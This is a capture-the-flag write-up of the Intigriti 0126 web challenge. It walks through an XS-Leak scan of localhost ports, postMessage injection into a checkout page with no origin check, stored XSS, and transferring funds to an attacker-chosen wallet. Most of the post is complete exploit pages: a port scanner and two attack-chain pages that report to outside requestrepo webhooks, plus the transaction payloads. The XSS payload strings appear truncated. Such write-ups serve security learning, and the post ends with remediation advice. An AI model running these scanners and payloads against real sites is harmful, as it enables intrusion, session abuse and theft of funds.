









# Overview

This is the story of how I tackled the Intigriti 0126 challenge, a wild ride through XS-Leaks, port fuzzing, and a final showdown with the dreaded `alert()` dialog. If you’re here for a dry security report, you’re in the wrong place, this is a blog post, with memes, mistakes, and a flag at the end!

## How the Intigriti 0126 Web App Works

Before diving into the attack plan, let’s break down what this web app actually does and why it’s so interesting (and vulnerable!).

- **Checkout Page (`checkout.html`):**
    - Listens for `postMessage` events from any origin (no origin validation!).
    - When it receives a message of type `submitTransaction`, it tries to find the user’s wallet for the specified currency.
    - If found, it submits a transaction to `/api/transaction` with the provided `toAddress`, `currency`, and `amount`.
    - The result is shown via an `alert()` and then redirects to the dashboard.

- **Marketwatch Page (`marketwatch.html`):**
    - Displays a table of transactions.
    - Renders the `toAddress` field directly into the DOM using `innerHTML` (no sanitization!).
    - This means any payload in `toAddress` can become executable JavaScript (hello, stored XSS).

- **API Logic:**
    - The backend accepts transactions from authenticated users and stores them.
    - There’s no restriction on the `toAddress` field, so you can send funds anywhere, or inject XSS payloads.

### Key Vulnerabilities

1. **Cross-Origin Message Injection (XOMI):**
    - The app accepts `postMessage` from any origin, allowing attackers to submit transactions on behalf of the admin bot.
2. **Stored XSS:**
    - The `toAddress` is rendered unsanitized in `marketwatch.html`, enabling persistent XSS.
3. **Business Logic Flaw:**
    - The app allows direct fund transfers to arbitrary addresses, with no ownership or whitelist checks.
4. **Alert() Dialog DoS:**
    - If a payload triggers `alert()`, the bot halts until the dialog is dismissed, blocking further payloads.

In short: the app is a playground for XS-Leaks, XSS, and logic bugs. Now, let’s get to the plan!

## The Plan (and the First Fail)

My first instinct was to go for the classic: **XSS**. I could access the public challenge at [https://challenge-0126.intigriti.io/](https://challenge-0126.intigriti.io/), but quickly realized that the admin bot *the real target* was only authenticated on `http://localhost:{PORT}`. Because the session cookie was set with `SameSite=Lax`, my payloads wouldn’t work cross-origin. That meant I needed to bruteforce which port on localhost the admin bot was running on before I could proceed.
<br>

> 

## The Bruteforce Epiphany

After banging my head against the XSS wall, I had a lightbulb moment: what if I could bruteforce which ports were open on localhost? If I could find where the admin bot was running, maybe I could get my payload in through the back door.

So, I built a port fuzzer that scanned localhost ports (think 3000–9000), using two tricks:
- **XS-Leak (Frame Counting):** Load `/checkout.html` in an iframe and check `window.length` to see if it’s the app or the login page.
- **Asset Oracle:** Try to load `/js/common.js` as a `<script>`. If it loads, the port is open.

```html
<!DOCTYPE html>
<html>
<head>
    <title>Intigriti Internal Port Fuzzer</title>
    <style>
        body { background: #111; color: #0f0; font-family: monospace; padding: 20px; }
        .log { margin-top: 20px; border: 1px solid #333; padding: 10px; height: 300px; overflow-y: auto; }
    </style>
</head>
<body>
    <h1>XS-Leak Port Scanner</h1>
    <div>Status: <span id="status">Initializing...</span></div>
    <div class="log" id="logBox"></div>

    <script>
        const WEBHOOK = "https://obiuubyq.requestrepo.com";
        const TIMEOUT = 1000;
        const PORTS = [
            3000, 5000,80, 443, 8000, 8080, 1337, 
            3001, 3002, 5001, 8001, 8008, 8888, 
            4000, 4200, 9000, 
        ];
        
        const PATH = "/checkout.html?currency=BTC&price=1000";

        const logger = (msg) => {
            const el = document.getElementById("logBox");
            el.innerText += `[${new Date().toLocaleTimeString()}] ${msg}\n`;
            document.getElementById("status").innerText = msg;
            
            fetch(`${WEBHOOK}?log=${encodeURIComponent(msg)}`).catch(e=>{});
        };

        let scannerWin = null;
        let pIndex = 0;

        async function scanNext() {
            if (pIndex >= PORTS.length) {
                logger("Scan Complete. No more ports.");
                return;
            }

            const port = PORTS[pIndex];
            const target = `http://localhost:${port}${PATH}`;
            
            logger(`Scanning Port ${port}...`);

            scannerWin = window.open(target, "scanner", "width=600,height=600");
            
            if(!scannerWin) {
                logger("ERROR: Popup Blocked! Allow popups.");
                return;
            }

            setTimeout(() => {
                let frames = 0;
                let hLen = 0;

                try {
                    frames = scannerWin.length;
                } catch(e) {}

                if (frames === 1) {
                    logger(`[+] HIT! PORT FOUND (Auth): ${port}`);
                    reportFound(port);
                    return; 
                } 
                
                scannerWin.close();
                pIndex++;
                scanNext();

            }, TIMEOUT);
            
            const script = document.createElement('script');
            script.onload = () => {
                logger(`[+] HIT! PORT FOUND (Asset): ${port}`);
                reportFound(port);
                document.body.removeChild(script);
            };
            script.onerror = () => {
                if(document.body.contains(script)) document.body.removeChild(script);
            };
            script.src = `http://localhost:${port}/js/common.js`;
            document.body.appendChild(script);

        }

        function reportFound(port) {
            fetch(`${WEBHOOK}?FOUND_PORT=${port}`);
            logger(`!!! CRITICAL: FOUND PORT ${port} !!!`);
            pIndex = PORTS.length; 
        }
        setTimeout(() => {
            logger("Starting Fuzzer sequence...");
            scanNext();
        }, 1000);

    </script>
</body>
</html>
```

> 

Eventually, I found the admin bot chilling on `localhost:8080`.
> 

## XS-Leak: Authentication Oracle

To check if the bot was logged in, I loaded `/checkout.html` in a popup and checked `window.length`:

```js
let frames = 0;
try { frames = checkoutWin.length; } catch(e) {}
if (frames === 0) {
    log("FAILURE: Target is not logged in (redirected to login).");
    return;
}
log("SUCCESS: Target is Authenticated. Launching XOMI...");
```

If you get 1, the bot is in. If you get 0, the bot is out. (Like a very boring game of baseball.)
>
## Exploitation: Stored XSS via XOMI

Once I found the right port, it was time to get creative. The app’s `checkout.html` listens for `postMessage` from any origin and submits transactions to the backend API. The `toAddress` field is reflected unsanitized in `marketwatch.html` using `innerHTML`, enabling stored XSS.

### Vulnerable Code

```js
// VULNERABILITY: Listen for postMessage from payment gateway (any origin!)
window.addEventListener('message', async function(event) {
    // CRITICAL VULNERABILITY: No origin validation!
    if (event.data.type === 'submitTransaction') {
        const transactionData = event.data.transaction;
        // ...existing code...
        // Submit transaction to API
        try {
            const response = await fetch('/api/transaction', {
                method: 'POST',
                headers: { 'Content-Type': 'application/json' },
                credentials: 'include',
                body: JSON.stringify({
                    toAddress: transactionData.toAddress,
                    currency: transactionData.currency,
                    amount: transactionData.amount
                })
            });
            // ...existing code...
        } catch (error) {
            // ...existing code...
        }
    }
});
```

```js
// Rendering transaction row
row.innerHTML = `...<span title="${tx?.address}">${tx?.address}</span>...`;
```

### Exploit Steps

1. Open `checkout.html` on the discovered port.
2. Send a crafted `postMessage` with a payload in the `toAddress` field.
3. Redirect the bot to `marketwatch.html` to trigger the stored XSS.
4. Payload executes in the admin context. Profit.

#### Exploit Payload

```js
const XSS_PAYLOAD = '\">';
const message = {
    type: "submitTransaction",
    transaction: {
        currency: "1337COIN", 
        amount: 0.00000001,
        toAddress: XSS_PAYLOAD
    }
};
checkoutWin.postMessage(message, "*");
```
> 


## The Popup Menace: `alert()` Broke My XSS Dreams
>

Everything was going great, until I hit the final boss: `alert()`. Here’s what happened:

- My original plan was to use XSS to exfiltrate sensitive data from `/api/me` by injecting a payload that would fetch the flag and send it to my server.
- For testing, I first injected `alert()` payloads (three times, because I’m nothing if not thorough). Each time, the admin bot would dutifully pop up the alert dialog and then... just stop. No more payloads would execute until someone pressed OK. But the bot, being a bot, just sat there. (If only it had hands!)
- I tried to get clever and injected a `fetch`-based payload after the alerts, hoping it would run next and exfiltrate the flag. But the browser blocks all JS execution until the alert is dismissed, so the fetch never fired.
- I even tried mixing payloads, but once an alert is triggered, the bot is stuck in popup purgatory. No more code runs, no more fun.

At this point, I realized that my XSS exfiltration dreams were dead, at least as long as alert() was in the chain. So I had to pivot.
> 


### The Pivot: Stealing Funds Instead

With XSS exfiltration blocked, I looked for another way to win. That’s when I noticed the transaction logic: the app would happily process a transaction to any address you supplied via postMessage, as long as you were authenticated. So, instead of trying to steal the flag with XSS, I simply sent a transaction to my own wallet address. No popups, no fuss, just profit.
#### Exploit Payload

```js
const addr = '1ebb16d3e22fb3e704be99097f32785d4f';
const message = {
    type: "submitTransaction",
    transaction: {
        currency: "1337COIN", 
        amount: 2,
        toAddress: addr
    }
};
checkoutWin.postMessage(message, "*");
```


This worked perfectly, and I was able to demonstrate a critical impact: direct fund transfer to an attacker-controlled address, bypassing the need for XSS exfiltration entirely. Sometimes, the simplest attack is the best one!
> 

---

## Double Win: Intended and Unintended Solutions

When I submitted my solution and got 2nd blood on this challenge, I was thrilled! Even more exciting was learning that the XSS part was actually unintended by the challenge authors. That meant I managed to solve my first Intigriti challenge in both the intended (funds stealing) and unintended (XSS) ways. Double the fun, double the satisfaction!

> 

---

## TL;DR: What is XOMI?

**XOMI** stands for **Cross-Origin Message Injection**. It’s a vulnerability where a web page listens for `postMessage` events from any origin, without validating the sender. This means any website can send crafted messages to the vulnerable page, potentially triggering sensitive actions.

### Why is XOMI Dangerous?

- If the page processes the message and performs actions (like submitting transactions, changing settings, or storing data) based on the message content, an attacker can abuse this to perform actions as the victim.
- In this challenge, XOMI allowed me to:
    - Send a transaction with a malicious `toAddress` payload (for XSS)
    - Or, just send a transaction to my own wallet (funds stealing)

### The Idea

The core idea is simple: if you can talk to a page via `postMessage` and it doesn’t check who’s talking, you can make it do things it shouldn’t. Combine that with a stored XSS in how it displays transaction data, and you have a powerful exploit chain.

---

## Impact

- **Stored XSS:** Run arbitrary JS as admin, steal sessions, exfiltrate flags, or just Rickroll the bot.
- **Insecure Transaction Logic:** Transfer funds to any address. (If only it were real money...)
- **Combined:** Steal funds *and* get code execution. Double whammy!

## Recommended Solution

- Sanitize all user input before rendering with `innerHTML` (use a safe DOM API or a library).
- Validate the origin of all `postMessage` events in `checkout.html`.
- Implement CSRF protection and proper authentication/authorization checks on all sensitive endpoints.
- Restrict the transaction API to only allow transfers to user-owned or whitelisted addresses.
- Implement a Content Security Policy (CSP) to block inline scripts and reduce XSS risk.

## Flag
>

```
INTIGRITI{019bd594-b91d-713c-b7b9-7c8aa5def220}
```


*Thanks for reading! Until next time, happy hacking!*

Special thanks to Intigriti for creating such a fun and creative challenge, looking forward to more like this!

---

### XS-Leaks → XOMI → Funds Transfer Payload Chain

```html
<!DOCTYPE html>
<html>
<head>
    <title>Intigriti 0126 Exploit Chain (Internal 8080)</title>
    <style>
        body { background: #0d1117; color: #00ff88; font-family: "Courier New", monospace; padding: 20px; }
        #log { border: 1px solid #1f2937; padding: 10px; height: 300px; overflow-y: scroll; background: #050a0e; margin-top: 20px; color: #fff; }
        button { padding: 15px 30px; background: #00ff88; color: #000; border: none; cursor: pointer; font-weight: bold; font-size: 18px; border-radius: 4px; margin-right: 10px; }
        button:hover { background: #00cc6a; }
        .status-box { font-size: 1.2em; margin-bottom: 20px; }
    </style>
</head>
<body>
    <h1><span style="color: #fff">Intigriti</span> Exploit Manager</h1>
    <div class="status-box">Status: <span id="status">Waiting for launch...</span></div>

    <form
      id="exploitForm"
      action="http://localhost:8080/checkout.html"
      method="GET"
      target="checkout">
      <input type="hidden" name="currency" value="BTC">
      <input type="hidden" name="price" value="1000">
    </form>

    <div>
        <button onclick="startExploit()">LAUNCH ATTACK CHAIN</button>
    </div>
    <div id="log"></div>

    <script>
        const WEBHOOK_URL = "https://rlm2gq0v.requestrepo.com"; 
        const TARGET_BASE = "http://localhost:8080";
        const addr="1ebb16d3e22fb3e704be99097f32785d4f";
        
        const log = (msg) => {
            const el = document.getElementById("log");
            el.innerHTML += `<div>[${new Date().toLocaleTimeString()}] ${msg}</div>`;
            el.scrollTop = el.scrollHeight;
            document.getElementById("status").innerText = msg;
            fetch(`${WEBHOOK_URL}?log=${encodeURIComponent(msg)}`).catch(e=>{});
        };

        let checkoutWin = null;
        startExploit();
        function startExploit() {
            log("Phase 1: Opening Target Window (" + TARGET_BASE + ")...");
            checkoutWin = window.open("about:blank", "checkout", "width=800,height=600");
            if (!checkoutWin) return alert("Allow popups!");
            document.getElementById("exploitForm").submit();
            log("Waiting 10s for Admin/Bot to load...");
            setTimeout(performAttack, 10000); 
        }

        function performAttack() {
            let frames = 0;
            try { frames = checkoutWin.length; } catch(e) {}
            
            log(`XS-Leak Probe: ${frames} frames detected.`);

            if (frames === 0) {
                log("FAILURE: Target is not logged in (redirected to login).");
                return;
            }

            log("SUCCESS: Target is Authenticated. Launching XOMI...");
            const message = {
                type: "submitTransaction",
                transaction: {
                    currency: "1337COIN", 
                    amount: 1,
                    toAddress: addr
                }
            };

            checkoutWin.postMessage(message, "*");
            log("Payload Sent! Waiting for DB write (2s)...");

            setTimeout(() => {
                log("Phase 2: Redirecting to MarketWatch (Trigger XSS)...");
                checkoutWin.location = `${TARGET_BASE}/marketwatch.html`;
                log("Attack Complete. Check RequestRepo for Flag.");
            }, 2000);
        }
    </script>
</body>
</html>
```

---

### XS-Leaks → XOMI → XSS PoC

```html
<!DOCTYPE html>
<html>
<head>
    <title>Intigriti 0126 Exploit Chain (Internal 8080)</title>
    <style>
        body { background: #0d1117; color: #00ff88; font-family: "Courier New", monospace; padding: 20px; }
        #log { border: 1px solid #1f2937; padding: 10px; height: 300px; overflow-y: scroll; background: #050a0e; margin-top: 20px; color: #fff; }
        button { padding: 15px 30px; background: #00ff88; color: #000; border: none; cursor: pointer; font-weight: bold; font-size: 18px; border-radius: 4px; margin-right: 10px; }
        button:hover { background: #00cc6a; }
        .status-box { font-size: 1.2em; margin-bottom: 20px; }
    </style>
</head>
<body>
    <h1><span style="color: #fff">Intigriti</span> Exploit Manager</h1>
    <div class="status-box">Status: <span id="status">Waiting for launch...</span></div>

    <form
      id="exploitForm"
      action="http://localhost:8080/checkout.html"
      method="GET"
      target="checkout">
      <input type="hidden" name="currency" value="BTC">
      <input type="hidden" name="price" value="1000">
    </form>

    <div>
        <button onclick="startExploit()">LAUNCH ATTACK CHAIN</button>
    </div>
    <div id="log"></div>

    <script>
        const WEBHOOK_URL = "https://rlm2gq0v.requestrepo.com"; 
        const TARGET_BASE = "http://localhost:8080";
        const XSS_PAYLOAD = '">';

        
        const log = (msg) => {
            const el = document.getElementById("log");
            el.innerHTML += `<div>[${new Date().toLocaleTimeString()}] ${msg}</div>`;
            el.scrollTop = el.scrollHeight;
            document.getElementById("status").innerText = msg;
            fetch(`${WEBHOOK_URL}?log=${encodeURIComponent(msg)}`).catch(e=>{});
        };

        let checkoutWin = null;
        startExploit();
        function startExploit() {
            log("Phase 1: Opening Target Window (" + TARGET_BASE + ")...");
            checkoutWin = window.open("about:blank", "checkout", "width=800,height=600");
            if (!checkoutWin) return alert("Allow popups!");
            document.getElementById("exploitForm").submit();
            log("Waiting 10s for Admin/Bot to load...");
            setTimeout(performAttack, 10000); 
        }

        function performAttack() {
            let frames = 0;
            try { frames = checkoutWin.length; } catch(e) {}
            
            log(`XS-Leak Probe: ${frames} frames detected.`);

            if (frames === 0) {
                log("FAILURE: Target is not logged in (redirected to login).");
                return;
            }

            log("SUCCESS: Target is Authenticated. Launching XOMI...");
            const message = {
                type: "submitTransaction",
                transaction: {
                    currency: "1337COIN", 
                    amount: 0.00000001,
                    toAddress: XSS_PAYLOAD
                }
            };

            checkoutWin.postMessage(message, "*");
            log("Payload Sent! Waiting for DB write (2s)...");

            setTimeout(() => {
                log("Phase 2: Redirecting to MarketWatch (Trigger XSS)...");
                checkoutWin.location = `${TARGET_BASE}/marketwatch.html`;
                log("Attack Complete. Check RequestRepo for Flag.");
            }, 2000);
        }
    </script>
</body>
</html>
```

 <br>
 
`#Intigriti` `#WebSecurity` `#HTML` `#XOMI` `#XSS` `#XS-Leaks`

